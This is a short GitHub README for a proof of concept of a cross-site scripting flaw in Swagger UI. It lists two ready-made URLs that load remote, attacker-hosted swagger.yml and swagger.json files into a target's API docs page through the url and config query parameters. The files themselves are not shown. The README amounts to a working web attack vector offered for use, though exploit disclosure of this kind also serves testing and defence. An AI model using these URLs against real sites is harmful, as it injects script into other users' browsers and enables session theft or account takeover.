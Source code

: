 # swagger-ui-xss
PoC to explorer Swagger UI XSS

- https://target.com/api/docs?url=https://raw.githubusercontent.com/luca-regne/swagger-ui-xss/main/swagger.yml 
- https://target.com/api/docs?config=https://raw.githubusercontent.com/luca-regne/swagger-ui-xss/main/swagger.json
